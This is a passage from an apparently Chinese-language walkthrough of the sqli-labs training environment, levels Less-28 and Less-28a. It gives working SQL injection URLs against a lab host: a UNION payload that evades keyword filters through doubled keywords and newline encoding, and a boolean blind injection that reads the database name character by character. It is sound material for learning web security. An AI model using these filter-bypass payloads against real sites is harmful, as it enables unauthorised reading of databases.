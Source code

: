 ```sql
http://192.168.65.128/sqli-labs/Less-28/?id=100')
uniounion%0Aselectn%0Aselect%0A1,database(),3||('1')=('1
```

![](file/image_1bDGpb_-_3.png)

### Less-28a：GET -Blind Based-All your UNION & SELECT Belong to us -single quote-parenthesis

**注入类型**

布尔盲注

**闭合方式**

id=('\$id')

```sql
http://192.168.65.128/sqli-labs/Less-28a/?id=1')
and(substr(database(),1,1)='s')and('1')=('1
```

![](file/image_g64UWk8Lzs.png)
